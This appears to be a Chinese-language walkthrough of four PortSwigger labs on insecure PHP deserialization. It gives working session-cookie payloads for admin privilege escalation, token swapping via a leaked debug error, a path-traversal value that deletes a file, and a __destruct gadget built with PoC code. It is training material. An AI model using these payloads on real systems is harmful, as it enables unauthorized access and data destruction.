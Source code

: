 # Insecure deserialization
## [Lab: Modifying serialized objects](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-objects)
### 題目敘述
 This lab uses a serialization-based session mechanism and is vulnerable to privilege escalation as a result. To solve the lab, edit the serialized object in the session cookie to exploit this vulnerability and gain administrative privileges. Then, delete Carlos's account.

You can log in to your own account using the following credentials: wiener:peter 
### 題目解釋
PHP 反序列化後修改內容
### 解答

觀察登入後的餅乾是 Base64 後的 PHP Serialize 產物，解開長這樣

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}7
```

可以用這種網站來觀察 https://zh.functions-online.com/unserialize.html

```
__PHP_Incomplete_Class::__set_state(array(
   '__PHP_Incomplete_Class_Name' => 'User',
   'username' => 'wiener',
   'admin' => false,
))
```


把 `admin` 後面的 `0` 改 `1` 之後會變成

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}7

__PHP_Incomplete_Class::__set_state(array(
   '__PHP_Incomplete_Class_Name' => 'User',
   'username' => 'wiener',
   'admin' => true,
))
```

再把結果轉 Base64 後貼回去就可以進 admin ㄌ

```
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjoxO303
```

## [Lab: Modifying serialized data types](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-data-types)
### 題目敘述
 This lab uses a serialization-based session mechanism and is vulnerable to authentication bypass as a result. To solve the lab, edit the serialized object in the session cookie to access the administrator account. Then, delete Carlos.

You can log in to your own account using the following credentials: wiener:peter 
### 題目解釋
PHP 反序列化修改，從錯誤訊息中找 Access token
### 解答

直接解餅乾會拿到

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"dtqyhktl2ng4i7sliuypnh07cygff4fq";}
```

如果單純替換名字的 `wiener` 以及字串長度

```
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";s:32:"dtqyhktl2ng4i7sliuypnh07cygff4fq";}
```

送出會噴錯

```
PHP Fatal error: Uncaught Exception: (DEBUG: $access_tokens[$user->username] = v140aq1rfmrsgt9nj6br3qfmgsu3736g, $user->access_token = dtqyhktl2ng4i7sliuypnh07cygff4fq, $access_tokens = [y9ax7nixfprd3f4jv5xhdgpx94bv4f5c, v140aq1rfmrsgt9nj6br3qfmgsu3736g, dtqyhktl2ng4i7sliuypnh07cygff4fq]) Invalid access token for user administrator in /var/www/index.php:7 Stack trace: #0 {main} thrown in /var/www/index.php on line 7 
```

整理一下字串會看到

```
$access_tokens[$user->username] = v140aq1rfmrsgt9nj6br3qfmgsu3736g, 
$user->access_token = dtqyhktl2ng4i7sliuypnh07cygff4fq,
$access_tokens = [y9ax7nixfprd3f4jv5xhdgpx94bv4f5c, v140aq1rfmrsgt9nj6br3qfmgsu3736g, dtqyhktl2ng4i7sliuypnh07cygff4fq]
```

我們目前的 access token 是 `dtqyhktl2ng4i7sliuypnh07cygff4fq`

直接撿一組上面的來試用看看

```
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";s:32:"v140aq1rfmrsgt9nj6br3qfmgsu3736g";}

Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO3M6MzI6InYxNDBhcTFyZm1yc2d0OW5qNmJyM3FmbWdzdTM3MzZnIjt9
```

就過了


## [Lab: Using application functionality to exploit insecure deserialization](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-using-application-functionality-to-exploit-insecure-deserialization)
### 題目敘述
 This lab uses a serialization-based session mechanism. A certain feature invokes a dangerous method on data provided in a serialized object. To solve the lab, edit the serialized object in the session cookie and use it to delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter

You also have access to a backup account: gregg:rosebud 
### 題目解釋
透過刪除帳號功能，會刪除序列化中指定路徑的檔案

### 解答

隨便上傳一張圖片後觀察餅乾

```
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"zyenb6gzxu4gqnam2nowbjsw8peq0zw0";s:11:"avatar_link";s:19:"users/wiener/avatar";}7
```

修改 `avatar_link`

```
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"zyenb6gzxu4gqnam2nowbjsw8peq0zw0";s:11:"avatar_link";s:43:"../../../../../../../home/carlos/morale.txt";}7
```

然後按下 Delete Account 就解了

## [Lab: Arbitrary object injection in PHP](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-arbitrary-object-injection-in-php)
### 題目敘述
 This lab uses a serialization-based session mechanism and is vulnerable to arbitrary object injection as a result. To solve the lab, create and inject a malicious serialized object to delete the morale.txt file from Carlos's home directory. You will need to obtain source code access to solve this lab.

You can log in to your own account using the following credentials: wiener:peter 
### 題目解釋

### 解答

登入後觀察原始碼會看到

```
<!-- TODO: Refactor once /libs/CustomTemplate.php is updated -->
```

nano 會在檔案的最後面加一個 `~`，我們也可以用這招訪問
```
view-source:https://ac961f031e8e615ac0773600003c0011.web-security-academy.net/libs/CustomTemplate.php~
```

取得原始碼

```php
<?php

class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}

?>
```

因為它有使用到了 `__destruct` 這個函數，也就是說，反序列化的話就會直接跑這個東西，就會做刪除檔案的動作，而餅乾裡面可以放完整的序列化資料 (PHP 物件)

所以我們可以寫一個

```php
<?php

Class CustomTemplate{
    public $lock_file_path = "/home/carlos/morale.txt";
}
$u = new CustomTemplate();

echo serialize($u);
```

然後用 `php -S 127.0.0.1:8888` 跑起來收

```
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}

TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjE6e3M6MTQ6ImxvY2tfZmlsZV9wYXRoIjtzOjIzOiIvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7fQ==
```

